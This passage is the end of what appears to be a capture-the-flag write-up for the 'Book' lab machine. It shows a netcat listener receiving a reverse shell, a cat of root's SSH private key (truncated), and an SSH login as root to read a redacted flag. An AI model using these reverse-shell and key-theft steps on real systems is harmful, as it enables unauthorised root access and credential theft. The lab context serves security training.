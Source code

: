 Note that it took a few attempts.

Then we get a connection back on our shell:
```bash
kali@kali:~/boxes/book$ nc -nlvp 1234
listening on [any] 1234 ...

connect to [10.10.xx.xx] from (UNKNOWN) [10.10.10.176] 47712
#  cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAsxp94IilXDxbAhMRD2PsQQ46mGrvgSPUh26lCE.........
```

Then we can ssh as root and read the root flag.

```bash
kali@kali:~/boxes/book$ ssh -i root_rsa root@book.htb


root@book:~# cat /root/root.txt
84da92adf{...}
```
Thanks for reading hope that you enjoyed!
